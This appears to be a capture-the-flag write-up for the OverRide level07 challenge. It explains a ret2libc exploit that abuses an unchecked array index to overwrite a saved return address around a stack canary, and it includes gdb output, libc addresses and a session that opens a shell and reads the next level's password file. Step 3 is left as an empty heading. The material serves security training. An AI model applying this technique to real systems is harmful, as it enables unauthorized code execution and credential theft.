 # Context

The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - `index % 3` must not be equal to 0
    - `number >> 24` must not be equal to 183 

* The program has been compiled with the `-fstack-protector` flag, meaning that the return address of the program is protected with a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries). 

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 

# lead

we are going to exploit the flaw in the store_number() function. Since we can write on the stack with the offset of our choice, we can change the address stored in EIP without overwriting the canary stack.

We could store a shellcode on the stack using the store_number() function, but it would be a bit tedious. Instead, we'll do a ret2libc attack, as we did for the level04.

# Exploit

1. First of all, let's find the address of the buffer. We know it is located at 0x24(%esp) in the main() function. Using gdb, we get the address of ESP (0xffffd520) and then calculate the effective address of the buffer: 0xffffd544.

2. We must then find the address of EIP in order to calculate its offset from the buffer. To do so, we just need to set a breakpoint anywhere in the main() function using gdb, and enter the command `ìnfo frame`. It is the address contained in EIP in the saved registers section that we want: 0xffffd70c. We just have to subtract this address from the buffer address to find the offset. Since we record unsigned int, we have to divide this value by 4 to find the right index. So we want to write from index 114.
```
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c
(gdb) p 0xffffd70c - 0xffffd544
$1 = 456
```

3. Petit problème




4. Finally, we can find the memory addresses of the system() and exit() functions, as well as the string "/bin/sh", as we did in level04:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```





```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115   
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

We can now reach the next level with the command `su level08` and fill in the flag found as a password.